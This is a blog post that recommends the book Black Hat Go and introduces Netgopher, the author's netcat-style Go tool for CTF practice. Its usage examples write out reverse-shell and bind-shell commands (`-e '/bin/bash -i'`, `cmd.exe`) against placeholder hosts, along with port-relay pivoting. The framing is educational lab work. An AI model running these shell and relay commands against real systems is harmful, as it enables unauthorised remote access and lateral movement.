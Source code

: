 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre).
excerpt: "New tool who dis?"
classes: wide
categories:
  - Labs
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting 
around to reading for an age. Long story short - I loved the first couple of 
chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new 
skillset to your box of tricks. Go will let you build tools (simple or complex, 
up to you!) that compile to a single (fairly small) 'blob', with simple 
concurrency and thread management, excellent cross-compilation (No Wine!) and 
a compilation/testing command that's almost as simple as developing a Python 
script.  

I'd suggest that working with Go like this is probably going to be a bit easier 
if you are familiar with some scripting or programming, even if it's just some 
simple usages or concepts, like variables, bits and bytes and so on. If you're
comfortable working with Bash or maybe a little bit of Python (even just being 
able to read these) you'll have a great start. but don't let that hold you back 
if you're keen! I've gone through the first chapter or two so far and in just 
a couple of evenings, the book has guided me through some really nice concepts
in such a simple way.

Most of my exposure to compiled languages comes from solving awkward Mathematical
problems at Univeristy, so learning Go was a little outfacing because I wanted
to avoid that again. So far it's been nothing like that, it's giving me serious 
Python vibes in the ease of drafting, testing and availability/usability of 
(mostly core) Libraries. I think I might be a convert! 

With all that said, If you're worried about the learning curve, you could always 
get the basic syntax and conventions down via Codeacademy, Sololearn etc. first,
then pick up something more technical like this, **just do it!**

# Netgopher

Enter Netgopher. *'What is that?'* I hear you cry? Well to be honest, it's the same 
example Netcat mimic (ish) that every person starting on Black Hat Go or Black Hat 
Python (Another No Starch belter) puts on their Github. That said, I've tried 
to make this super simple implementation of Netcat a bit more useful for myself
as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it 
up and added some better command line parsing and options goodness, whilst most 
of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do 
enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP 
connections, command execution and built-in  port relaying (my personal fave!). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection 
relay. A Pair of listeners are started, then a connecting relay is set up, by 
starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this 
script and see what it's capable of? If I can do this in a couple of evenings, 
you definately can! Read the source and play with Netgopher as set out below 
and happy hacking! 

The rest of this post is actually a glorified excerpt from the README for ng on 
my [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel 
free to check that out too if you know where you're going from here.

# Installation

You can, **but probably shouldn't**, get Netgopher by running the following 
command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing via *go get* will only install ng in your local $GOPATH; 
additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller 
binary (to move around the network quickly), preferably with multi-platform 
support, so I can hack on Windows, Linux and more. So... **grab a copy of all the 
[released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**
, which have been cross compiled and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You 
can try this out with a listener/connection pair:

{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of 
listeners and connections.A listener is started, then a connection made from 
the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start a shell and connect back to a remote listener
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener
This is useful in certail cases because you can create as many conenctions 
as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward connections to another port
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this piqued your interest why not grab a copy of 
Netgopher and have a mess around, or read the source? If you have any thoughts, 
I welcome issues, pulls, emails, tweets and more, just hit one of the socials 
below. I hope I've insipired you to check out some Go, or even program a 
little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, 
[Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap 
sales of No Starch Press books- that's where I got my copy (in eBook form) and 
it might be a good idea to keep your eyes peeled for similar sales in future. 
Peace!
